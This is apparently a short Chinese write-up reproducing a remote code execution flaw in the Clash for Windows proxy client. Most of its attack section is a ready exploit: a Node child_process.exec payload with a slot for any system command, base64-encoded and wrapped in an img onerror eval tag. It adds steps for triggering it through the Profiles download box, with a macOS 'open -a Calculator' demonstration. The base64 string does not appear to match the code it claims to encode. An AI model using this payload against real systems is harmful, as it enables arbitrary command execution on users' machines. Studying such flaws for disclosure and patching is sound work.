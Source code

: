 # clash_rce_mac


0x01 工具介绍

````
一个 Go 语言开发的多平台代理客户端
````

项目地址：

https://github.com/Fndroid/clash_for_windows_pkg/releases



0x02 漏洞复现

exp：

````
require('child_process').exec('需要执行的系统命令',(error, stdout, stderr)=>{     alert(`stdout: ${stdout}`); });
````

将以上代码base64编码：

````
cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJwCBZ0yE+9995CcsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsgICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOyB9KTs=
````

最终的payload：

````
<img src=x onerror='eval(new Buffer(`你的base64payload`,`base64`).toString())'>
````



在Profiles菜单栏的输入框输入，点击Download

![image-20220228103847114](image-20220228103917531.png)



成功弹出计算机。

mac 弹计算机命令

````
open -a Calculator
````



![image-20220228104000594](20220228104000594.png)



